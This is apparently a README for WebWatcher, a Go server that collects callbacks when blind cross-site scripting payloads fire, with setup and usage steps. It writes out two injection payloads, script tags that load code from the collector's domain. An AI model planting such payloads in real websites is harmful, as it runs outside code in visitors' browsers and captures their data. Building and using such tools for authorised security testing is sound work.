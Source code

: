 # WebWatcher  
Golang server for testing blind XSS.   
Special endpoint for testing requests and file extensions.  

## Setup  


Setup .wwconfig and add it to your home directory.  
Make sure that `assets` and `templates` are in the directory specified in config.  

Login to your website with /login?token=[token]  

## Usage
After authentication, you can find all requests in `/results/all`.  
Left side is from  XSS requests.  
Right side is from custom path requests.  
![results](_img/results.png)  


#### Collecting simple request data from path you specified in config  
This endpoint will contain response specified in `assets/extensions.json` file  

**Example:**  
if you specified `"CollectorPath":"example"` in config file and set .js extensions with payload `alert(1)` in `assets/extensions.json`  
and insert this payload to the website, alert will popup.  
`<script src=https://domain.com/example.js></script>`  

#### Collecting data from blind XSS  
`<script src=https://example.com></script>`  
![blind xss](_img/blindxss.png)  



